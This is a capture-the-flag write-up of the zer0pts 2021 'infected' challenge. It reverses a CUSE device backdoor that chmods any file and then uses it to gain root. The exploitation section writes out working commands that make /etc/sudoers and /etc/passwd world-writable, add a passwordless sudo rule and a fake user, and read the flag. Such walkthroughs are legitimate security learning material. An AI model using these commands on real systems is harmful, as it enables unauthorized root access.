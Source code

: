 ```yaml
---
tags: reverse
year: 2021
authors: crit, ttmx
---
```


# infected

We were given the binary and told that the host was running it,
we just needed to use it.

## Reversing

So, this was definitely not in my comfort zone,
in fact it was just at the limit for my limited experience with reverse.

### What is it?

Opening up `main` we only see `register_backdoor`. Looking into it, we see `cuse_lowlevel_main`.

```
0x00000d1d      lea     rcx, devops ; 0x201d00
0x00000d24      mov     edi, eax
0x00000d26      call    cuse_lowlevel_main ; sym.imp.cuse_lowlevel_main
```

Following `devops` we get:
```
...
0x00201d14      add     byte [rax], al
0x00201d16      add     byte [rax], al
0x00201d18      .qword 0x0000000000000a9a ; sym.backdoor_open
0x00201d20      add     byte [rax], al
0x00201d22      add     byte [rax], al
0x00201d24      add     byte [rax], al
0x00201d26      add     byte [rax], al
0x00201d28      .qword 0x0000000000000ac0 ; sym.backdoor_write; RELOC 64
0x00201d30      add     byte [rax], al
0x00201d32      add     byte [rax], al
...
```

So now we just need to check those two.
`backdoor_open` simply acts as a wrapper to `fuse_reply_open`,
while `backdoor_write` is more complex.

A quick Google search reveals to me that `fuse` stands for *Filesystem in Userspace*.
Looking further into it, I read:

> This device is the primary interface between the FUSE filesystem driver and a user-space process wishing to provide the filesystem (referred to in the rest of this manual page as the filesystem daemon).

```
$ ls /dev
/dev/backdoor
...
```

Bingo!

### Finding out more

I kept reversing the binary and found out that there were three calls to `strtok`:
```c
iVar4 = strtok(iVar3, 0xe20);
arg1_00 = strtok(0, 0xe20);
iVar5 = strtok(0, 0xe20);
```
This means the input is split by a token stored at address `0xe20` which turned out to be `:`.

Afterwards we have:
```c
iVar1 = strncmp(iVar4, 0xe22, 8);
if (iVar1 == 0) {
    stat64(arg1_00, (int64_t)&var_a0h);
    if (((uint32_t)var_88h & 0xf000) == 0x8000) {
        uVar2 = atoi(iVar5);
        iVar1 = chmod(arg1_00, uVar2, uVar2);
        if (iVar1 == 0) {
            fuse_reply_write(arg1, arg3, arg3);
            goto code_r0x00000c7d;
        }
    }
    fuse_reply_err(arg1, 0x16);
} else {
    fuse_reply_err(arg1, 0x16);
}
```

The first part was compared to 8 bytes stored at `0xe22`, these were `b4ckd00r`.
The second part was passed in to `stat64`, I assumed it was to check for file existence.
And finally, the third part it was converted to an `int` and then passed to `chmod`.

So our binary would receive a string for format `b4ckd00r:file:perms`,
and apply `chmod` to the passed file.

## Pwning the backdoor

Oh, it's just a `chmod`, that's easy.
I check if there are any `crontabs` I could exploit, but find none.
I check if sudo is available, and it is! Time to `chmod` the `/etc/sudoers` file and get root that way.

```bash
echo "b4ckd00r:/etc/sudoers:777" > /dev/backdoor
```

Now we try to write to it... But we can't?
Oh, the perms are all messed up, that's totally not 777.

```sh
$ls -l /etc/sudoers
------x--x
```

Hmmm, lets investigate this further.
Lets make a random file at `/tmp/t` and see if I can understand the perms.

```sh
echo "b4ckd00r:/tmp/t:2" > /dev/backdoor
> --------w-
echo "b4ckd00r:/tmp/t:3" > /dev/backdoor
> --------wx
```

Oh, I know this pattern, its just binary. That's probably the default behavior, I just did not know about it.

`1111111111` binary to decimal is `1023`, lets try that.

```sh
echo "b4ckd00r:/tmp/t:1023" > /dev/backdoor
.rwxrwxrwx
```

That looks good! Lets use it on the real one.

```sh
echo "b4ckd00r:/etc/sudoers:1023" > /dev/backdoor
```

Now with the chmoded file we need to add something to let us use sudo... What about all commands without any password? Seems safe.

```sh
echo "ALL ALL=(ALL) NOPASSWD: ALL">>/etc/sudoers
```

It didn't error out!

Sudo requires the permissions on `/etc/sudoers` to not be writable by everyone, so we just revert that.
It also requires us to be on the user list, which we are not, we just have `uid 1000`, but no user.

```sh
echo "b4ckd00r:/etc/sudoers:448" > /dev/backdoor
```

Sudo perms fixed, onto adding a user, with `uid 1000` and a random name.
```sh
$ echo "b4ckd00r:/etc/passwd:1023" > /dev/backdoor
$ echo "heck:x:1000:1000:heck:/root:/bin/sh">>/etc/passwd
$ sudo /bin/ls /root
flag-b40d08b2f732b94d5ba34730c052d7e3.txt
$ sudo /bin/cat /root/flag-b40d08b2f732b94d5ba34730c052d7e3.txt
zer0pts{exCUSE_m3_bu7_d0_u_m1nd_0p3n1ng_7h3_b4ckd00r?}
```
And there's the flag!